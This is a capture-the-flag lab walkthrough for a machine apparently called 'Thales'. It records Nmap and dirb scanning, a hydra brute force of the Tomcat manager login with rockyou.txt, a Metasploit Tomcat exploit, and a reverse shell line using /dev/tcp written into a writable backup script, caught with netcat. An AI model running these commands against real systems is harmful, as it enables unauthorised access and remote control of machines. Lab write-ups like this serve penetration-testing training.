

# Exercise 1: Thales

Nmap scans:

Webpage at port 8080:  

(clicked on Manager App)

Default credentials upon google search is admin:admin which did not work

Run dirb:  

/shell/ shows an empty webpage

When in doubt, brute force!

hydra -L tempusers.txt -P /home/kali/rockyou.txt -f <http://192.168.50.21> http-get /manager/html

Where tempusers.txt contains only two entries: tomcat and admin

Search Metasploit for any tomcat exploits that require credentials (use 5th one)

Set these options

and run!  

Type ‘shell’ in meterpreter shell to go to command shell

Then get an interactive shell using python3 -c ‘import pty; pty.spawn(“/bin/bash”)’

Look for writable directories: find / -type d -writable 2\> /dev/null

Download linpeas from kali to target using the classic python SimpleHTTPServer method

Result:

The sudo 1.8.21p2 and the CVE-2021-4034 exploit did not work due to the errors below which occurs in some machines  

another possible point of entry is the writable backup script.

Write to backup.sh:

sh -i \>& /dev/tcp/192.168.50.5/4443 0\>&1

Which will create a reverse shell onto our machine on port 4443 (since 4444 is used by Metasploit)

Run nc -nlvp 4443 on kali to listen and wait until the script triggers automatically
